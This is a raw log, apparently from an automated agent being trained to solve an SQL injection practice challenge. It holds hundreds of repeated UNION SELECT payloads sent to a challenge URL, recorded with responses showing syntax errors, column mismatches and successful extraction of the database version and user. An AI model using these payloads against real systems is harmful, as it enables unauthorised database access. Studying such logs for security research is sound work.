https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Serv

  0%|          | 970/1000000 [5:54:08<38851:48:30, 140.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 971/1000000 [5:54:09<27274:29:29, 98.28s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 972/1000000 [5:54:10<19168:42:46, 69.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 973/1000000 [5:54:11<13492:55:19, 48.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 974/1000000 [5:54:17<9943:43:22, 35.83s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 975/1000000 [5:54:18<7041:48:46, 25.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 976/1000000 [5:54:22<5252:00:40, 18.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 977/1000000 [5:54:23<3751:58:04, 13.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 978/1000000 [5:54:24<2708:28:14,  9.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 979/1000000 [5:54:24<1973:14:07,  7.11s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 980/1000000 [5:54:25<1455:05:26,  5.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 981/1000000 [5:54:26<1096:00:44,  3.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 982/1000000 [5:54:31<1156:31:32,  4.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 983/1000000 [5:54:32<882:41:40,  3.18s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 984/1000000 [5:54:33<701:14:35,  2.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 985/1000000 [5:54:34<571:38:12,  2.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 986/1000000 [5:54:36<566:54:32,  2.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 987/1000000 [5:54:38<562:46:43,  2.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 988/1000000 [5:54:39<471:50:51,  1.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Serve

  0%|          | 989/1000000 [5:55:29<4519:22:52, 16.29s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 990/1000000 [5:55:30<3248:49:02, 11.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 991/1000000 [5:55:31<2350:27:02,  8.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 992/1000000 [5:55:32<1721:44:02,  6.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 993/1000000 [5:55:33<1280:05:43,  4.61s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 994/1000000 [5:55:34<975:24:15,  3.51s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 995/1000000 [5:55:35<759:14:04,  2.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 996/1000000 [5:55:36<613:47:27,  2.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is

  0%|          | 997/1000000 [5:56:16<3786:05:39, 13.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 998/1000000 [5:56:17<2726:26:07,  9.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 999/1000000 [5:56:19<2074:13:31,  7.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1000/1000000 [5:56:19<1489:53:38,  5.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server respo

  0%|          | 1001/1000000 [5:58:54<13880:30:49, 50.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php

  0%|          | 1002/1000000 [6:00:36<18237:30:36, 65.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1003/1000000 [6:00:36<12802:31:37, 46.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1004/1000000 [6:00:40<9278:04:46, 33.43s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1005/1000000 [6:00:41<6569:27:13, 23.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1006/1000000 [6:00:42<4676:32:44, 16.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1007/1000000 [6:00:43<3352:39:39, 12.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1008/1000000 [6:00:44<2423:27:15,  8.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union s

  0%|          | 1009/1000000 [6:01:34<5842:06:32, 21.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1010/1000000 [6:01:35<4195:41:27, 15.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Serv

  0%|          | 1011/1000000 [6:02:57<9749:52:21, 35.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1012/1000000 [6:02:59<6995:53:14, 25.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1013/1000000 [6:03:00<4979:21:44, 17.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1014/1000000 [6:03:01<3567:38:13, 12.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Serv

  0%|          | 1015/1000000 [6:04:00<7439:56:39, 26.81s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Serv

  0%|          | 1016/1000000 [6:04:57<9936:04:23, 35.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1017/1000000 [6:04:58<7032:25:25, 25.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
S

  0%|          | 1018/1000000 [6:08:42<23587:27:37, 85.00s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respons

  0%|          | 1019/1000000 [6:09:08<18650:18:57, 67.21s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1020/1000000 [6:09:10<13216:34:23, 47.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1021/1000000 [6:09:11<9329:29:22, 33.62s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://z

  0%|          | 1022/1000000 [6:09:58<10467:16:43, 37.72s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1023/1000000 [6:10:00<7483:25:58, 26.97s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1024/1000000 [6:10:01<5315:12:41, 19.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1025/1000000 [6:10:02<3797:47:31, 13.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1026/1000000 [6:10:03<2741:52:21,  9.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server resp

  0%|          | 1027/1000000 [6:10:21<3425:01:38, 12.34s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1028/1000000 [6:10:22<2478:57:15,  8.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error

  0%|          | 1029/1000000 [6:12:52<14257:14:17, 51.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1030/1000000 [6:12:53<10063:45:02, 36.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1

  0%|          | 1031/1000000 [6:13:03<7845:37:00, 28.27s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1032/1000000 [6:13:04<5574:05:01, 20.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response 

  0%|          | 1033/1000000 [6:13:10<4459:35:14, 16.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
